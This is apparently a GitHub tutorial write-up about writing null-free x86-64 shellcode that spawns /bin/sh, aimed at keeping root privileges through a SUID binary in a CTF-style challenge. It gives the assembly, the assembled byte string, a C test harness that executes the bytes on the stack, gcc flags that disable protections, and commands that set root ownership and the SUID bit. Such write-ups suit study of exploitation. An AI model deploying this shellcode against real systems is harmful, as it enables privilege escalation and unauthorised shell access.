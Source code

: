 # Creating a reuid(0,0) execve("/bin/sh") shellcode

# Introduction
I was sitting the other day, struggling with getting a root shell on a challenge. The concept of the challenge was simple. You got SSH credentials and there was a binary file owned by root, with the SUID bit set.

If you just do an execve("/bin/sh") on this binary, your shell will just drop privileges and you will end up with a normal user shell.

Calling setuid(0) did absolutely nothing for me and I still ended up with a normal user shell.

Although this challenge wasn't quite intended to be solved by getting a root shell. I was determined to do so and found out that you can call execve on /bin/sh with the -p parameter. And I created an exploit that did exactly this.

After discussing my overly complicated exploit with a friend, it turned out that I had gotten the idea completely wrong.

To keep privileges in the shell you just need to make sure that the uid is set to 0 and the euid is set to 0.

I looked around on http://shell-storm.org/shellcode/ and realized that although there are shellcodes which call /bin/sh with setuid(0). There are none which call /bin/sh with both setuid(0) and seteuid(0). They do however exist for ash, bash etc..

So I decided that I would like to write my own

# Writing the shell code
I decided to write just the execve("/bin/sh") part first, as I have done this before.

This is what I ended up with:

```C
xor rax, rax //Empty rax register
add rax, 0x3b //Move in execve byte
xor rsi, rsi // empty rsi register
xor rdx,rdx //empty rdx register
mov rbx, 0x68732f6e69622f2f //move "//bin/sh" into rbx
shr rbx, 8 //Change "//bin/sh" to "/bin/sh"
push rbx //Push /bin/sh onto the stack
mov rdi, rsp // move the pointer to /bin/sh on the stack into rdi
syscall //Call it
```
I use https://defuse.ca/online-x86-assembler.htm#disassembly to turn my assembly into shellcode which gives me:
```
\x48\x31\xC0\x48\x83\xC0\x3B\x48\x31\xF6\x48\x31\xD2\x48\xBB\x2F\x2F\x62\x69\x6E\x2F\x73\x68\x48\xC1\xEB\x08\x53\x48\x89\xE7\x0F\x05
```
I got what I need to set the different registers to from the following syscall table: https://filippo.io/linux-syscall-table/

A couple of things to note about the shellcode:
1) I only push to the stack once. I like to push as little as possible to the stack, in case my stack pointer will be on top of my executable code (this can happen if you sigret for example)

2) I empty all the registers, even though it might be initialized to 0 when I jump on the stack. This makes the shellcode versatile and makes it able to be used for other exploits as well.

3) There are no null bytes in the shellcode. Again this makes it way more versatile as a lot of input functions read until they receive a null byte.

I then decided to test my shellcode. I didn't have a copy of the old binary file laying around so I decided to create a test binary which just executes my shellcode for me

I can not take credit for the testing code. The code is taken from https://gist.github.com/securitytube/5318838 where I've only done slight modifications:

```C
#include<stdio.h>
#include<string.h>


int main(void)
{
	unsigned char code[] = "\x48\x31\xC0\x48\x83\xC0\x3B\x48\x31\xF6\x48\x31\xD2\x48\xBB\x2F\x2F\x62\x69\x6E\x2F\x73\x68\x48\xC1\xEB\x08\x53\x48\x89\xE7\x0F\x05";
  printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}
```
Modifications are:

1) Moving code string inside the main loop to make sure it's on the stack instead of in a section for global variable in the compiled binary

2) Changing the char code to my own payload

I then compiled it with:
```
gcc shellcodetester.c -o test1 -fno-stack-protector -z execstack -no-pie
```
And ran the following linux commands on the compiled binary to give it suid bit and make it owned by root:

```bash
sudo chown 0:0 ./test1
sudo chmod u+s ./test1
```

Running the binary we get a shell but only with normal user privileges:
![alt text](https://github.com/Mymaqn/roadtopwn/blob/main/shellcode/Creating_reuid_execve_shellcode/shellrun1.png?raw=true)
